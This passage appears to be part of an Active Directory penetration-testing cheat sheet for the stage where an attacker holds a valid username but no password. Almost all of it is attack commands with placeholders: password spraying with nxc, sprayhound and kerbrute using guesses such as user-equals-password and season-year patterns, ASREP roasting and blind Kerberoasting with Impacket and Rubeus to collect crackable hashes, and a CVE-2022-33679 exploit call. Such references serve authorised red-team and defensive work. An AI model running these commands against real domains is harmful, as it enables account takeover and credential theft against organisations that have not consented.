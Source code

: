 # Valid user (no password)

## Password Spray
- Get password policy  (you need creds,but you should get the policy  first to avoid locking accounts)
  - default policy
    - `nxc smb <dc_ip> -u '<user>' -p '<password>' --pass-pol`
      [https://www.thehacker.recipes/ad/recon/password-policy](https://www.thehacker.recipes/ad/recon/password-policy)
    - `Get-ADDefaultDomainPasswordPolicy`
    - `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> domain_policy
  - Fined Policy (Privileged)
    - `ldapsearch-ad.py --server <dc> -d <domain> -u <user> -p <pass> --type pass-pols`
    - `Get-ADFineGainedPasswordPolicy -filter *`
    - `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> pso   # can also be runned with a low priv account but less information will be available`
- ⚠️ user == password >>> Clear text Credentials
  - `nxc smb <dc_ip> -u <users.txt> -p <passwords.txt> --no-bruteforce --continue-on-success`
  - `sprayhound -U <users.txt> -d <domain> -dc  <dc_ip>   # add --lower to lowercase and --upper to uppercase. Add nothing to get only user=pass`
- ⚠️ usuals passwords  (SeasonYear!, Company123, ...) >>> Clear text Credentials
  - `nxc smb <dc_ip> -u <users.txt> -p <password> --continue-on-success`
  - `sprayhound -U <users.txt> -p <password> -d <domain> -dc  <dc_ip>`
  - `kerbrute passwordspray -d <domain> <users.txt> <password>`

## ASREPRoast
- List ASREPRoastable Users (need creds)
  - `MATCH (u:User {dontreqpreauth:true}),(c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p`
- ASREP roasting >>> Hash found ASREP
  - `GetNPUsers.py <domain>/ -usersfile <users.txt> -format hashcat -outputfile <output.txt>`
  - `nxc ldap <dc_ip> -u <users.txt>  -p '' --asreproast <output.txt>`
  - `Rubeus.exe asreproast /format:hashcat`
- Blind Kerberoasting >>> Hash found TGS
  - `Rubeus.exe keberoast /domain:<domain> /dc:<dcip> /nopreauth: <asrep_user> /spns:<users.txt>`
  - `GetUserSPNs.py -no-preauth "<asrep_user>" -usersfile "<user_list.txt>" -dc-host "<dc_ip>" "<domain>"/`
- CVE-2022-33679 @CVE@ >>> Lat move PTT 
  - `CVE-2022-33679.py <domain>/<user> <target>`
